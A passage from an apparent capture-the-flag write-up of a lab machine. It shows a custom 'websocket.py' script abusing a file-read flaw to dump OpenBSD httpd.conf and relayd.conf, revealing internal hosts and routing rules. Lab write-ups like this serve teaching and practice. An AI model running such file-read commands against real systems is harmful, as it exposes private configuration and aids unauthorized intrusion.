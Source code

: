 
## DNS Hijacking

### relayd

While checking conf files, one interesting file found is httpd server.

* OpenBSD httpd server config file default path is `/etc/httpd.conf`

host/subdomains listening on different local port but we can access them from remote port 80.
```bash
❯ python websocket.py -f -p "/etc/httpd.conf"

server "0.0.0.0" {
	no log
	listen on lo0 port 8000

... [snip] ...

server "employees" {
	no log
	listen on lo0 port 8001

... [snip] ...

server "chat" {
	no log
	listen on lo0 port 8002

... [snip] ...
```

OpenBSD uses [`relayd`](https://man.openbsd.org/relayd.8) for doing this.

* relayd is a daemon to relay and dynamically redirect incoming connections to a target host.
* OpenBSD relayd config file path is `"/etc/relayd.conf"`

```bash
❯ python websocket.py -f -p '/etc/relayd.conf'
table<1>{127.0.0.1}
table<2>{127.0.0.1}
table<3>{127.0.0.1}
table<4>{127.0.0.1}
http protocol web{
	pass request quick header "Host" value "*crossfit-club.htb" forward to <3>
	pass request quick header "Host" value "*employees.crossfit.htb" forward to <2>
	match request path "/*" forward to <1>
	match request path "/ws*" forward to <4>
	http websockets
}

table<5>{127.0.0.1}
table<6>{127.0.0.1 127.0.0.2 127.0.0.3 127.0.0.4}
http protocol portal{
	pass request quick path "/" forward to <5>
	pass request quick path "/index.html" forward to <5>
	pass request quick path "/home" forward to <5>
	pass request quick path "/login" forward to <5>
	pass request quick path "/chat" forward to <5>
	pass request quick path "/js/*" forward to <5>
	pass request quick path "/css/*" forward to <5>
	pass request quick path "/fonts/*" forward to <5>
	pass request quick path "/images/*" forward to <5>
	pass request quick path "/favicon.ico" forward to <5>
	pass forward to <6>
	http websockets
```